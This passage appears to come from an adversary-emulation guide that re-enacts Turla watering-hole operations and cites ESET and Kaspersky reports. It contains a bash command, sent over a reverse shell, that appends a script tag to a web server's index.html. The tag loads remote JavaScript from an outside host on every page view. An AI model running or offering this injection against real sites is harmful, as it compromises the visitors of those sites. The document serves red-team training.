 ```bash
echo "<script>if (document.getElementById('xyz')) {{}} else {{ var gam = document.createElement('script'); gam.type = 'text/javascript'; gam.async = true; gam.src = ('http://anto-int.com/counter.js'); var sm = document.getElementsByTagName('script')[0]; sm.parentNode.insertBefore(gam, sm); var fl = document.createElement('span'); fl.id = 'xyz'; var d =  document.getElementsByTagName('div')[0]; d.parentNode.insertBefore(fl, d);}}</script>" >> /var/www/html/index.html
```

* Note - this command does not return output. Wait 1 minute and then send the following command to close the reverse shell

```bash
exit
```

### :moyai: Source Code

* [Penquin](../../Resources/Penquin)
  * [sendPacket.py](../../Resources/Penquin/sendPacket.py)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
